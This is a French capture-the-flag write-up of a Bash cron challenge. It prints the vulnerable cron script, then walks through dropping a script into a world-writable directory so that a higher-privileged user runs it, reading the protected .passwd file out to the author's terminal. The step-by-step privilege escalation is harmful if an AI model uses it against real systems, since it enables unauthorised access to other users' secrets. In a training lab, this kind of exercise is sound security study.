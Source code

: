 # Bash - cron

## Procédure 

1. Dans la machine j'apperçoit un fichier ch4 qui contient : 

```
#!/bin/bash

# Sortie de la commande 'crontab -l' exécutée en tant que app-script-ch4-cracked:
# */1 * * * * /challenge/app-script/ch4/ch4
# Vous N'avez PAS à modifier la crontab(chattr +i t'façons)

# Output of the command 'crontab -l' run as app-script-ch4-cracked:
# */1 * * * * /challenge/app-script/ch4/ch4
# You do NOT need to edit the crontab (it's chattr +i anyway)

# hiding stdout/stderr
exec 1>/dev/null 2>&1

wdir="cron.d/"
challdir=${0%/*}
cd "$challdir"


if [ ! -e "/tmp/._cron" ]; then
    mkdir -m 733 "/tmp/._cron"
fi

ls -1a "${wdir}" | while read task; do
    if [ -f "${wdir}${task}" -a -x "${wdir}${task}" ]; then
        timelimit -q -s9 -S9 -t 5 bash -p "${PWD}/${wdir}${task}"
    fi
    rm -f "${PWD}/${wdir}${task}"
done

rm -rf cron.d/*
```

On comprend que les fichiers placés dans le repertoire cron.d sont éxécutés avec les droits de app-script-ch4-cracked toutes les minutes.

On comprend aussi que pour insérer un fichier à éxécuter on peut passer par /tmp/._cron.

2. Récupération d'information avant création du script

Il faut pour cela le chemin complet du fichier .passwd soit /challenge/app-script/ch4/.passwd.

Et trouvé le bon numéro correspondant à son terminal.

```
set | grep /dev/pts
SSH_TTY=/dev/pts/13
```

Dans mon cas le numéro 13.

3. Création du script permettant de récupérer et d'afficher le contenu du fichier .passwd

Avant toute chose mettre les droits d'écriture pour /dev/pts/13 afin que app-script-ch4-cracked puisse écrire sur mon terminal. 

```
chmod o+w /dev/pts/13
nano /tmp/._cron.d/shell.sh && chmod 777 /tmp/._cron.d/shell.sh

#!/bin/bash 
echo $(</challenge/app-script/ch4/.passwd) > /dev/pts/13
```

Au bout d'une minute j'obtient le flag.

